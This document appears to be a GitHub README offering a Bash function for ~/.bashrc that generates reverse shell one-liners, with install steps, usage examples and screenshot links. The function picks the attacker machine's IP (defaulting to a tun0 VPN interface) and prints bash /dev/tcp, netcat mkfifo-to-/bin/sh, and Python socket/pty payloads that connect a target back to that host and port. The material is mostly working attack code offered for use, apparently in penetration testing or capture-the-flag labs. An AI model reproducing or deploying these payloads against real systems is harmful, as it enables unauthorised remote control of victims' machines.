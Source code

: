 # Set a Bash Alias for Common Reverse Shell's
```bash
function reverse { local port=443;adaptors=$(ip a | egrep ^[0-9]+ | cut -d" " -f 2 | sed 's/://g');OPTIND=1;usage()( echo "reverse [-i <interface>] [-l <language>] [-p <port>]";printf "Language Options:\n  bash\n  nc\n  python\n\n" );while getopts ":i:l:p:h" options; do case "${options}" in i)local interface=${OPTARG};if ! echo $interface |  egrep -qo "public"; then if ! echo $adaptors | grep -qo "$interface"; then echo "Interface "${OPTARG}" does not exist";usage;return;fi;fi;;l)local language=${OPTARG};;     p)local port=${OPTARG};;h)usage;return;;:)echo "Error: -${OPTARG} requires an argument";usage;return;;*)echo "Unknown Switch: -${OPTARG}";usage;return;;esac;done;if [ -z $interface ]; then if ip a | egrep -qo "tun0"; then local interface="tun0";elif echo $interface | egrep -qo "public" ; then local interface="public";elif ip a | egrep -qo "eth0"; then local interface="eth0";elif ip a | egrep -qo "ens33"; then local interface="ens33";else local interface="lo";fi;fi;if echo $interface | egrep -qo "public"; then local ip=$(wget -qO - icanhazip.com);else local ip=$(ip a show $interface | egrep -o "([0-9]{1,3}\.){3}[0-9]{1,3}" | head -1);fi;local randName=$(head -4 /dev/urandom | sha256sum | base64 | head -c 5);declare -A shells=( ["bash"]="bash -i >& /dev/tcp/$ip/$port 0>&1" ["nc"]="mkfifo /tmp/$randName; nc $ip $port 0</tmp/$randName | /bin/sh >/tmp/$randName 2>&1; rm /tmp/$randName" ["python"]="python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"$ip\",$port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'" );if [ -z $language ]; then printf "\n";for i in "${shells[@]}";do printf "$i\n\n";done;return;fi;printf "\n${shells[$language]}\n\n"; }

```
# Instructions
<br>
• 1. vim ~/.bashrc
<br>
• 2. copy and paste the above text (see screenshot)
<br>
• 3. save, then open a new terminal and type "<b>reverse -h</b>"
<br>
• 4. the function will default to your tun0 IP 

# Usage

```
reverse -h

reverse -i tun0 -p 9001

reverse -i public -p 9001
```

# Screenshots
<i>~/.bashrc</i>
<img src="https://i.imgur.com/9AtWWvn.png">
<br>
<i>running the alias</i>
<img src="https://i.imgur.com/muKxjaf.png">
<br>
<img src="https://i.imgur.com/xvULtzH.png">
<br>
<b>Please feel free to modify this!</b>
<br>
<center>Special thanks to https://github.com/MuirlandOracle for the quirky Bash help! </center> 
